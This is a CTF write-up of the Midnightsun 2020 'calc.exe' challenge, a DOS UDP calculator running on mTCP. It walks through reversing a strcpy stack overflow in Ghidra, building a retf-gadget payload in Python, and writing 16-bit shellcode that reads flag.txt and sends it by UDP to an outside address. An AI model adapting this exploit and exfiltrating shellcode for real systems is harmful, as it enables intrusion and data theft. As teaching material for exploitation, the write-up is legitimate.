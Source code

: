 ```yaml
---
layout: post
category: Pwn
title: Midnightsun CTF 2020 - calc.exe
tags: 
    - kowu
---
```


# Challenge Description / Setup

```
During some renovations, we found an ancient computer with this VM hidden behind a wall.
We believe it is the earliest example of networked computation. (QEMU with PCNET network)
```
[Download](/assets/bin/midnight_floppy.img)

So we got a DOS floppy image. The Image contained the following files:
```
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
1991-11-11 05:00:02 .RHS.        33430        33792  IO.SYS
1991-11-11 05:00:02 .RHS.        37394        37888  MSDOS.SYS
1991-11-11 05:00:02 ....A        47845        48128  COMMAND.COM
2020-10-01 20:13:50 ....A        32769        33280  DHCP.EXE
2020-10-01 20:13:50 ....A         6751         7168  PCNTPK.COM
2020-10-01 20:13:50 ....A        55816        56320  calc.exe
2020-10-01 20:13:50 ....A           37          512  flag.txt
2020-10-01 20:13:50 ....A           77          512  AUTOEXEC.BAT
2020-10-03 10:58:54 ....A          247          512  MTCP.CFG
1999-11-17 17:32:02 ....A            0            0  BOOT500
------------------- ----- ------------ ------------  ------------------------
2020-10-03 10:58:54             214366       218112  10 files

```

Autoexec would start DHCP to run a DHCP server, then the challenge "calc.exe" is executed. It turns out that [mTCP](http://www.brutman.com/mTCP/) was used as a TCP stack. Calc.exe would then listen on UDP port 8888 for simple equations of the format `number operand number` and echo the result back (via network).


First I spent some time getting QEMU and NAT working. I have no clue of networking and just followed Instructions at [https://wiki.qemu.org/Documentation/Networking/NAT](https://wiki.qemu.org/Documentation/Networking/NAT). Finally I ended up using the following combination:

`sudo qemu-system-i386 -drive file=floppy.img,if=floppy,format=raw -m 64 -boot a -netdev tap,id=mynet0 -device pcnet,netdev=mynet0 --nographic`

It probably would be way easier (and does not require root) to just forward UDP port 8888, but I did the setup before reversing, and before looking into the provided openvpn conf, where the ports would have been documented.

Server:
```
...
DHCP request sent, attempt 1: Offer received, Acknowledged

Good news everyone!

IPADDR = 192.168.53.76
NETMASK = 255.255.255.0
GATEWAY = 192.168.53.1
NAMESERVER = 192.168.53.1
LEASE_TIME = 3600 seconds

Settings written to 'MTCP.CFG'
Sending [1337 + 9774 = 11111]


```

Client:
```
user@KARCH ~ % nc -u 192.168.53.76 8888
1337+9774
1337 + 9774 = 11111
```

# Reversing / Bug Hunting

I reversed the binary using Ghidra. By comparing characteristic strings in the binary and correlating them with exmaple source from the mTCP project, I could locate the mainloop at `1000:09c1`. From there it was easy to locate the UDP packet handler at `1000:0afa`.

decompiled handler:
```c
void __fastcall_member udp_handler(byte *packet,char *header)

{
  void *unaff_DI;
  void *unaff_SS;
  
  parsepkt((char *)(packet + 0x2a));
  dbg_print_sending((char *)0x2b5,(void *)0x1aa8,(void *)0xbfc);
  sendUDP((uint)(packet + 0x1a),(int)header,0x200,0xbd2,unaff_SS,1);
  Buffer_free(unaff_DI);
  return;
}
```

the bug is an obvious stackoverflow via strcpy in the parsepkt function, a long input would result in a hang:
```c
void __fastcall_member parsepkt(char *input)

{
  char cVar1;
  char *buffer_ptr;
  undefined2 unaff_SS;
  char buffer [20];
  
  strcpy(buffer,input);
  buffer_ptr = buffer;
  while( true ) {
    cVar1 = *buffer_ptr;
    if (cVar1 == '\0') {
      return;
    }
    if ((((cVar1 == '+') || (cVar1 == '-')) || (cVar1 == '*')) || (cVar1 == '/')) break;
    buffer_ptr = buffer_ptr + 1;
  }
  *buffer_ptr = '\0';
  buffer_ptr = buffer_ptr + 1;
  atoi(buffer);
  atoi(buffer_ptr);
  FUN_1000_3a65(0xbfc);
  return;
}
```
Now the presented decompiled source looks quite nice, but for this I had to teach Ghidra some new 16bit calling conventions (like microsoft 16bit fastcall), as mTCP was written in C++. This worked surprisingly easy, some existing specifications can be found in `Ghidra/Processors/x86/data/languages/x86-16.cspec`. I think I did't quite get them right, but sufficiently well to understand what's going on. It should be `AX, BX, CX, DX, ES, stack...`, return values in `AX, DX`.

# Debugging

To debug, I attached radare (`r2 -a x86 -b 16 -D gdb gdb://localhost:1234`) / gdb (`gdb -ex "target remote localhost:1234" -ex "set architecture i8086"`) to qemus gdb server (add `-S -s` options), and placed a breakpoint at `b *0x1459b`. I stumbled upon some strange behaviour. The breakpoint was hit, and stepping "worked", but somehow the IP was completely off. It turns out this is because both debuggers don't take care of code segments. I stumbled upon some GDB script at [https://ternet.fr/gdb_real_mode.html], which allowed at least for some more comfortable single stepping in gdb. In r2, i just manually calculated addresses e.g. by `s cs * 16 + eip`.


# Shellcode Execution

Next I found some simple retf ropgadget which allowed me to set ip and cs, so that cs:ip points to the stack (under my control). Shellcode execution :)
```python
# bp di si cx bx ip (0x0a40 = retf) | ip cs | 4X fill | shellcode
r.send(b'+' * 24 + struct.pack(
    '<12H',
    0x1111, 0x2222, 0x3333, 0x4444, 0x5555, 0x0a40,
    0x2710, 0x202e, 0x5858, 0x5858, 0x5858, 0x5858
) + shellcode)
```

# Shellcode

Now it is "easy". I used the 0x21 DOS intterrupt [https://www.beck-ipc.com/api_files/scxxx/dosemu.htm](https://www.beck-ipc.com/api_files/scxxx/dosemu.htm) to open the flag file, and read the flag into memory. Next I prepared the arguments to call the already existing `int8_t Udp::sendUdp( IpAddr_t host, uint16_t srcPort, uint16_t dstPort, uint16_t payloadLen, uint8_t *data, uint8_t preAlloc)` function, to echo back the flag via udp. I filled out all the important arguments with static data (static ip address, 1337 src / dst port), and let wireshark listen for the resulting UDP packet. Less work for me :)

```asm
org 0
bits 16

; open flag.txt
xor ax, ax;
push ax;
push 0x7478;
push 0x742e;
push 0x6761;
push 0x6c66;
mov dx, sp;
xor ax, ax;
mov ah, 0x3d;
int 0x21;

; read file
mov cx, 0x111;
mov bx, ax;
mov dx, 0xbfc;
mov ah, 0x3f;
int 0x21;

; prepare 10.8.10.2
mov al, 10; ; dst ip
mov ah, 2;
push ax;
mov al, 10;
mov ah, 8;
push ax;
mov bp, sp;

xor ax, ax;  ; use buffer
inc ax;
push ax;

push ds; ; buffer
push 0xbd2;

push 0x201; ; length

; jump
push 0x13ab; ;cs
push 0x0b3b; ;ip

mov ax, bp;   ; ptr to 10.8.10.2
mov dx, ds;
mov cx, 1337; ; dst port
mov bx, 1337; ; src port

retf
```

![image](http://blog.redrocket.club/assets/img/calc_wireshark.png)
